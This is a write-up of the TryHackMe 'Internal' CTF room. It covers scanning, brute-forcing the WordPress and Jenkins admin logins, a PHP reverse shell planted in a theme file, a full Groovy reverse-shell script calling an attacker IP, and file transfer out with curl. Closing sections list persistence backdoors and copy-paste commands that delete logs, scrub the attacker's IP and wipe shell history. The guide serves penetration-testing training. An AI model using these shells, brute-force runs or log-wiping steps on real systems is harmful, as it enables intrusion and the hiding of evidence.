

# internal

URL: [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal) &nbsp;<span class="badge rounded-pill bg-danger" title="This is a Hard difficulty room."><i class="fa fa-skull-crossbones"></i>&nbsp;Hard</span>

## PHASE 1: Reconnaissance

Description of the room:

> You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 
>  
> __Scope of Work__
>  
> The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal > information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked > that you secure two flags (no location provided) as proof of exploitation:
>  
> - User.txt
> - Root.txt
>  
> Additionally, the client has provided the following scope allowances:
>  
> - Ensure that you modify your hosts file to reflect internal.thm
> - Any tools or techniques are permitted in this engagement
> - Locate and note all vulnerabilities found
> - Submit the flags discovered to the dashboard
> - Only the IP address assigned to your machine is in scope
>  
> *(Roleplay off)*
>  
> I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation > assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.
>  
> Note - this room can be completed without Metasploit

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sCV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://x.x.x.x`

Interesting folders found:

```python
/blog                 (Status: 301) [Size: 311] [--> http://10.10.180.69/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.180.69/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.180.69/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.180.69/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Interesting info found:

```python
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
+ /phpmyadmin/changelog.php: Uncommon header 'x-ob_mode' found, with contents: 1.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://internal.thm/blog/index.php/wp-json/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /blog/wp-login.php: Wordpress login found.
+ /wordpress/wp-login.php: Wordpress login found.
```

Also see: [nikto.log](nikto.log)

### Exploration

There are several interesting parts to this. Note that you do need to modify your HOSTS file to point to this website by name. So, run:

```bash
sudo nano /etc/hosts
```

and then add an entry like (using the actual IP address of your target):

```text
10.10.180.69    internal.thm
```

This makes it so when you reference the name `internal.thm` at the command line or in the browser, it will resolve to that IP address.

Anyhow, we have an exposed phpmyadmin instance and a Wordpress instance. I first googled what the default credentials might be for the phpmyadmin, and `root:<empty>` and `root:password` did not work. We'll get back to that.

#### Running `wpscan`

Since we have a Wordpress site, we can run something like this:

```bash
wpscan --url http://internal.thm/blog/ -e vp,u
```

Where the `-e` is for "enumerate" and `vp` is for Vulnerable Plugins and `u` is for user ID ranges.

```text
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [10.10.180.69]
[+] Started: Wed Oct  4 11:41:15 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)

 Brute Forcing Author IDs -: |===================================================================================================================================|

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Oct  4 11:41:21 2023
[+] Requests Done: 13
[+] Cached Requests: 48
[+] Data Sent: 3.457 KB
[+] Data Received: 9.149 KB
[+] Memory used: 244.301 MB
[+] Elapsed time: 00:00:05
```

Also see: [wpscan.log](wpscan.log)

We find we have a username of `admin`. My first instinct was to run hydra against the web form via:

```bash
hydra -I -l "admin" -P /usr/share/wordlists/rockyou.txt \                                                            
    $TARGET -t 50 http-post-form \
    "/blog/wp-login.php:log=admin^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=login_error"
```

However, after :15 minutes I got no hits. Actually, I did RE-run this with 50 threads after seeing in the write-up that they used a different technique, and specified 50 threads:

```bash
wpscan --url http://internal.thm/blog/ --usernames admin \
    --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

This is notable because this apparently uses the `xmlrpc.php`, which is a web service - as opposed to `/blog/wp-login.php` which is a full-on web page. The web page is going to be significantly slower because it needs to re-render the whole page with each response. In summary:

| Technique:               | Time:                                      |
| ------------------------ | ------------------------------------------ |
| Hydra against a web form | :15+ minutes (did not finish/did not find) |
| WPScan against xmlrpc    | :02 minutes, :43 seconds                   |

Also see: [wpscan2.log](wpscan2.log)

## PHASE 3: Gaining Access & Exploitation

Now that we have a username (`admin`) and password from the `wpscan` against RockYou, we can log into the Wordpress site. If you have admin access to a CMS, what is the go-to? Overwrite one of the theme files with a reverse shell, and then execute it. So, from the Wordpress admin, I go into Theme Editor:


And I like to use `archive.php`. So, I paste my pre-configured PHP Reverse Shell into the `archive.php` theme file. On my workstation, I spin up netcat to listen for the inbound connection:

```bash
clear && nc -lvnp 9000
```

To trigger the Archives page, you can just click on an archived post, like "August 2020":



And we now have a reverse shell running as `www-data`.

### Unprivileged Access

We are logged in via a reverse shell that we initiated by overwriting a theme file in Wordpress. In our reverse shell:

- We are `www-data`.
- We do not have `sudo` privilege.

#### Finding group-owned files

One thing that is interesting is we can go see which files we own on the file system. Sometimes that can yield interesting results because it means that this user interacts with those files. I run:

```bash
find / -group www-data -type f 2>/dev/null
```

This will search from `/` looking for files (`-type f`) that are owned by `-group www-data` and the `2>/dev/null` hides any errors. We get back a lot, but take a look at these:

```text
/var/lib/phpmyadmin/blowfish_secret.inc.php
/var/lib/phpmyadmin/config.inc.php
/etc/phpmyadmin/config-db.php
/etc/phpmyadmin/htpasswd.setup
```

In summary:

- `/var/lib/phpmyadmin/blowfish_secret.inc.php` has the secret used to encrypt the phpmyadmin secrets.
- `/var/lib/phpmyadmin/config.inc.php` is empty.
- `/etc/phpmyadmin/config-db.php` has the phpmyadmin database credentials.
- `/etc/phpmyadmin/htpasswd.setup` just sets is so the `admin` account has access.

#### Inspecting Wordpress config

Also just looking around, in `/var/www/html/wordpress/wp-config.php` there are the database credentials for the Wordpress site. If you did need to exfiltrate data, you can use these credentials from the command line:

```bash
mysql -u wordpress -p
```

The `-p` alone will prompt you for a password. If you are in a primitive/fragile shell, the input/output might be messed up. However, if you run some proper commands, and then type `exit`, you will see all of your output. So, from your blank prompt, enter:

```bash
show databases;
use wordpress;
show tables;
exit
```

For this room, we already know there is one user and we have access to the web console, so getting access to the databases isn't needed.

#### Exposed credentials in file

From further exploration, we find [/opt/wp-save.txt](wp-save.txt) which has credentials in it for user `aubreanna`. **We can now SSH in as this user.** It looks like we don't have `sudo` privilege. You can at least collect your `user.txt` flag here.

#### Jenkins instance

We see a `jenkins.txt` that only says:

```text
Internal Jenkins service is running on 172.17.0.2:8080
```

By default, unless you've changed it, Docker uses `172.17.0.0/16` for its' default network range. So, this host we're on might be hosting this Jenkins instance? We can run:

```bash
netstat -tupln
```

To see:

```text
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:42355         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.180.69:68         0.0.0.0:*                           -  
```

We're running SOMEthing on port `8080` but it's bound to the `localhost` IP address, so we won't be able to access it from our workstation. Since we have SSH access though, we could use some SSH port forwarding.

```bash
ssh -L local_port:remote_ip:remote_port user@hostname
```

So, we can map this Jenkins port `8080` to my local machines port `8080`, so that I can access this website with my browser. We can run:

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@$TARGET
```

> **NOTE:** The `remote_ip` here is what the IP is from the perspective of the machine that we've SSH'ed into.
>
> ```mermaid
> flowchart LR
> K(Kali Workstation\n10.10.10.10) ----> T(Target\n10.10.39.226)
> T --> D(Docker Container\n172.17.0.2)
> ```
>
> So we are SSH'ing into the target, and from the target's perspective, we specify the IP address where we want to port forward, which is the underlying Docker container.
{: .prompt-info }

We can now access the Jenkins website from our workstation via: http://127.0.0.1:8080. We are presented with a login screen. Let's kick off `hydra` to see if we can find anything:

```bash
hydra -I -l "admin" -P /usr/share/wordlists/rockyou.txt \
    127.0.0.1 -s 8080 -t 50 http-post-form \
    "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

Nice! We find the password for `admin` for Jenkins in about :04 minutes.

Also see: [hydra-jenkins.log](hydra-jenkins.log)

#### Reverse shell from Jenkins

Now that we are logged into the Jenkins web UI as admin, there is a "Script Console" where we can run arbitrary commands:

> <http://127.0.0.1:8080/script>

This accepts code written in "Groovy". How do you do a reverse shell in Groovy? No idea, so I go to:

> <https://www.revshells.com/>

Choose Groovy from the list, copy that generated code. It's basically this, cleaned-up, in case you wanted to skim it:

```groovy
String host = "10.6.90.119";
int port = 9000;
String cmd = "sh";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
  while (pi.available() > 0) so.write(pi.read());
  while (pe.available() > 0) so.write(pe.read());
  while (si.available() > 0) po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try {
    p.exitValue();
    break;
  } catch (Exception e) {}
};
p.destroy();
s.close();
```

You can paste this in Jenkins while running Netcat locally, listening for a connection:

```bash
nc -lvnp 9000
```

and then click "Run" and we now have a reverse shell from the operating environment where Jenkins is running.

### Privilege Escalation / Privileged Access

We look around and basically:

1. We're running as the `jenkins` account, UID=1000.
2. We only belong to the `jenkins` group.
3. Our home folder is `/var/jenkins_home`. In there is the configuration for this instance.

Let's dig in to see what we can find.

#### Running Linpeas

First, let's get Linpeas on there and running. So, we run a quick web server from my `~/Downloads/` folder where I've already [downloaded Linpeas](https://github.com/carlospolop/PEASS-ng) with:

```bash
# Switch to the downloads folder
cd ~/Downloads/

# Start a web server
python3 -m http.server 8000
```

Then, over on the Jenkins machine run:

```
# Switch to the /tmp folder where we will have write access
cd /tmp

# Download the script
wget http://10.10.10.10:8000/linpeas.sh

# Mark it as executable
chmod +x ./linpeas.sh

# Run it and capture the results into a file, where we can read it more easily later
./linpeas.sh 2>&1 > ./linpeas.log
```

This results in Linpeas running and outputting `STDOUT` and `STDERR` to the `linpeas.log` file, which we'll pull back to our workstation to read. To do that, when this Jenkins machine does NOT have Netcat installed, let's listen for the file on our workstation with:

```bash
nc -lvnp 8888 > ./linpeas.log
```

This just takes all of the bytes that it gets on that port, and dumps them to this file. Now on the target Jenkins machine, we can ship this log file to our workstation with Curl:

```bash
curl -T ./linpeas.log http://10.10.10.10:8888/
```

Reviewing the `linpeas.log`, the Linux Exploit Suggester lists several CVE's (all marked as "less probable"):

- **CVE-2022-32250** - nft_object UAF (NFT_MSG_NEWSET) ([Link](https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/))
- **CVE-2022-2586** - nft_object UAF ([Link](https://www.openwall.com/lists/oss-security/2022/08/29/5))
- **CVE-2021-27365** - linux-iscsi ([Link](https://blog.grimm-co.com/2021/03/new-old-bugs-in-linux-kernel.html))
- **CVE-2021-22555** - Netfilter heap out-of-bounds write ([Link](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html))
- **CVE-2019-15666** - XFRM_UAF ([Link](https://duasynt.com/blog/ubuntu-centos-redhat-privesc))
- **CVE-2018-1000001** - RationalLove ([Link](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/))
- **CVE-2017-1000366,CVE-2017-1000379** - linux_ldso_hwcap_64 ([Link](https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt))

There were also some container breakouts specified, but reading up on them, they require that we be running root in this container, which we're not.

#### Exposure of a file

In the end, in the `/opt/` folder there is [note.txt](note.txt) file that exposes credentials. You can use those to SSH into the box:

```bash
ssh root@$TARGET
```

One interesting follow-up, not only can we now see the rest of the Wordpress server we started from, we can also see the Jenkins Docker container we were just on too:

```bash
docker ps
```

Which shows:

```text
root@internal:~# docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                 NAMES
7b979a7af778        jenkins/jenkins     "/sbin/tini -- /usr/…"   3 years ago         Up 2 hours          127.0.0.1:8080->8080/tcp, 50000/tcp   jenkins
```

You can get your final flag now from `/root/root.txt`.

## PHASE 4: Maintaining Access & Persistence

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

- Add SSH key to `/root/.ssh/authorized_keys`
- Create a privileged account that wouldn’t draw attention (ex: `operations`) or an unprivileged account and give it `sudo` access via group or directly in the `/etc/sudoers` file.
- Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

### Delete Logs

Delete relevant logs from `/var/log/` - although that might draw attention.

```bash
rm -Rf /var/log/*
```

### Replace our IP

Search and replace our IP address in all logs.

#### OPTION 1: Simple

The simplest way is via something like:

```bash
find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;
```

This searches for all files under `/var/log/` and for each file found, searches for `10.10.2.14` (replace this with your IP) and and replace anywhere that is found with `127.0.0.1`.

#### OPTION 2: Complex

You could come up with your own scheme. For example, you could generate a random IP address with:

```bash
awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'
```

I'd like this to use a new, unique, random IP address for every instance found, but `sed` doesn't support command injection in the search/replace operation. However, you could generate a random IP address to a variable and use that for this search and replace, like below. Note that the `2> /dev/null` hides any error messages of accessing files.

##### As separate statements

In case you want to work out each individual piece of this, here they are as separate statements:

```bash
# MY IP address that I want to scrub.
srcip="22.164.233.238"

# Generate a new, unique, random IP address
rndip=`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`

# Find all files and replace any place that you see my IP, with the random one.
find /var/log -name "*" -exec sed -i "s/$srcip/$rndip/g" {} \; 2> /dev/null
```

##### As one ugly command

This is something you could copy/paste, and just change your IP address.

Basically, just set your `srcip` to your workstations' IP first, and MAKE SURE to run this with a space prefixed, so this command doesn't get written to the shell's history files (e.g. `~/.bash_history`, `~/.zsh_history`, etc.)

```bash
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
```

or optionally, start a new shell, turn off command history, AND start the command with a space prefixed (which also should not add the command to the shell history), then exit out of that separate process:

```bash
bash
unset HISTFILE
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
exit
```

The key idea here is that hiding your address from the logs would be pointless if the *command* for hiding your address from the logs were in a log some place!

### Wipe shell history

For any accounts that we used, if we don't mind that this will destroy valid entries of the user too (and give them an indication their account was compromised), run a comand like this with `tee` writing out nothing/null to multiple files at once:

```bash
cat /dev/null | tee /root/.bash_history /home/kathy/.bash_history /home/sam/.bash_history
```

## Summary

Completed: [2023-10-04 19:04:09]